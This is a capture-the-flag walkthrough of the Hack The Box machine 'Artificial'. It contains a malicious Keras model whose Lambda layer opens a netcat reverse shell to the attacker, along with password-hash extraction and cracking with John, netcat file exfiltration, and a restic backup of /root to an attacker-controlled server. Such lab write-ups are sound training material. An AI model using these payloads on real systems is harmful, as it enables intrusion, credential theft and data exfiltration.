 # 🚪 Hack The Box – Artificial (Easy)
Machine Type: Linux | Solved by: Akshat Nigam | Category:Web Exploitation, Docker Misconfiguration, Privilege Escalation | Difficulty: Easy | Attack Surface:HTTP (port 80), TensorFlow via file upload
## Initial Enumeration

### Nmap Scan

```bash
nmap -sV -sC 10.10.11.74 -v
```

**Open Ports:**

* 22/tcp: OpenSSH 8.2p1
* 80/tcp: HTTP (nginx 1.18.0)

## Web Exploitation - TensorFlow RCE

1. Register a user and access the upload page.
2. Gather `requirements.txt` and `Dockerfile` for environment context:

### Dockerfile

```dockerfile
FROM python:3.8-slim
WORKDIR /code
RUN apt-get update && \
    apt-get install -y curl && \
    curl -k -LO https://files.pythonhosted.org/packages/.../tensorflow_cpu-2.13.1...whl && \
    rm -rf /var/lib/apt/lists/*

RUN pip install ./tensorflow_cpu-2.13.1...whl
ENTRYPOINT ["/bin/bash"]
```
Build the Docker image using 

```bash
docker build -t <image name> .
```
Start the container 

```bash
docker run -it -v $(pwd):/app <image name> 
```

### Exploit Code

```python
import tensorflow as tf

def exploit(x):
    import os
    os.system("rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc <your-ip> 6666 >/tmp/f")
    return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("exploit.h5")
```

3. Upload model and trigger execution by clicking **"View Predictions"**.

## Getting User

### SQL Enumeration

```bash
sqlite3 users.db
sqlite> SELECT * FROM user;
```

Extracted user hashes. Example:

```plaintext
1|gael|gael@artificial.htb|c99175974b6e192936d97224638a34f8
```

### Cracking Hash with John

```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-MD5
```

Cracked Password: `mattp005numbertwo`

### SSH Access

```bash
ssh gael@10.10.11.74
```

## Privilege Escalation - Root

### Backup Discovery

```bash
cd /var/backups
ls -la
```

Found: `backrest_backup.tar.gz`

Extracted and found:

## Netcat Transfer 

```bash
nc -nv <your ip> <port> < backrest_backup.tar.gz
```
On your Attacking machine open the listening 

```bash
nc -nlvp <port> > backrest_backup.tar.gz
```
Unzip it and read 

```bash
cat .config/backrest/config.json
```

```json
"passwordBcrypt": "JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP"
```

### Decode and Crack Bcrypt

```bash
echo '<base64>' | base64 -d > hash.txt
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt
```

Cracked Password: `!@#$%^`

### Internal Port Forwarding

```bash
ssh gael@10.10.11.74 -L 9898:127.0.0.1:9898
```

## Using Restic (GTFOBins)
Go to the http://localhost:9898 enter the username and password you gained above. 
```bash
Username: backrest_root
Password: !@#$%^
```

### Start Local Restic Server

Create your own Repo name it according to your use. 

```bash
Repository Url: /opt
Password: <Depends on you>
```
On your system, install Rest-server, using go

```bash
./rest-server --path /tmp/restic-data --listen :12345 --no-auth
```

### On Target - Backup `/root`

Now after creating the repo, in the Run command execute:

```bash
restic -r rest:http://<your-ip>:12345/myrepo init
restic -r rest:http://<your-ip>:12345/myrepo backup /root
```

### On Attacker - Restore Snapshot

```bash
restic -r /tmp/restic-data/myrepo snapshots
restic -r /tmp/restic-data/myrepo restore <snapshot-id> --target ./restore
```

Root flag found:

```bash
cat restore/root/root.txt
```

### SSH as Root (Optional)

```bash
ssh -i ./id_rsa root@Artificial.htb
```

---

## Summary

* **User:** Achieved via TensorFlow model RCE and hash cracking.
* **Root:** Extracted from backup archive, cracked bcrypt password, used port forwarding and restic GTFOBin to restore `/root`.

> Rooted 🎉

